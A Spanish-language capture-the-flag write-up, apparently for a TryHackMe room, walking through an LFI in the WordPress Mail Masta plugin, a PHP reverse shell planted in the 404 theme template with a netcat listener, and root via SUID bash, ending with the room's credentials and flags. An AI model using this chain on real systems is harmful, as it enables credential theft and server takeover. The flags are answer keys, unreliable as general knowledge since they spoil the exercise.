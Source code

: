 En mi caso, utilizare el seleccionado, descargamos el archivo .txt : `searchsploit -m php/webapps/40290.txt` y nos muestra que deberemos hacer uso de #LFI(__Local FIle Inclusion__). Con esta vulnerabilidad, podremos abusarnos y enumerar informacion como credenciales, base de datos, archivos de configuracion, entre otros.

Haremos uso de los filtros php, para que nos enumere la configuracion de wordpress "__wp-config.php__" y que nos responda en codigo base64. Nuestro comando nos quedara de la siguiente manera : 
`http://IPTARGET/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php`

Una vez obtuvimos la respuesta, la decodificaremos en nuestra terminal ejecutando : `echo "BASE64" | base64 -d`, obtendremos las credenciales de elyana para poder acceder a wordpress. Para acceder con nuestras credenciales obtenidas, nos tendremos que dirigir al directorio "__/wordpress/wp-admin".

# Exploit

Una vez obtuvimos acceso con las credenciales de elyana, nos digiriremos dentro del editor de temas (Appareance/Theme-Editor). Seleccionamos en la columna "__Theme FIles__" el que esta listado como "__404 Template__" y pegaremos una reverse shell que puede ser a eleccion, yo utilizare una bastante popular de pentestmonkey "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php", tendremos que configurar la __IP__ y __PUERTO__ de nuestra maquina atacante!, una vez realizado el proceso, en nuestra maquina atacante, nos pondremos en escucha para luego recibir la respuesta del y obtener una shell dentro del sistema como www-data. `nc -nvlp PUERTO`

Para obtener respuesta en la terminal de nuestra maquina atacante, deberemos ir al enlance donde pegamos nuestra reverse-shell, que estara alojada en "http://IPTARGET/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty". Una vez visitada, ya tendremos nuestra shell con privilegios www-data.

# Priv. Escalation

Para escalar privilegios dentro de este sistema, tendremos que enumerar los permisos de root y en donde estan alojados, utilizaremos __find__ para esta tarea ejecutando : `find / -perm -4000 2> /dev/null | xargs ls -lah`.

```ruby
-rwsr-sr-x 1 root   root       1.1M Jun  6  2019 /bin/bash
-rwsr-sr-x 1 root   root        59K Jan 18  2018 /bin/chmod
-rwsr-xr-x 1 root   root        31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root   root        43K Sep 16  2020 /bin/mount
-rwsr-xr-x 1 root   root        63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root   root        44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root   root        27K Sep 16  2020 /bin/umount
-rwsr-sr-x 1 daemon daemon      51K Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root   root        75K Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root   root        44K Mar 22  2019 /usr/bin/chsh
...
```

Como tiene permisos alojados en /bin/bash, podremos consultar en la pagina "https://gtfobins.github.io/gtfobins/" y buscar por permisos __bash__. Utilizaremos el metodo __SUID__ para esta tarea, un metodo simple, solo tendremos que ejecutar `bash -p` y ya tendremos acceso al sistema raiz!

# Respuestas

#credentials = elyana: H@ckme@123
#FLAG = THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
#ROOT = THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}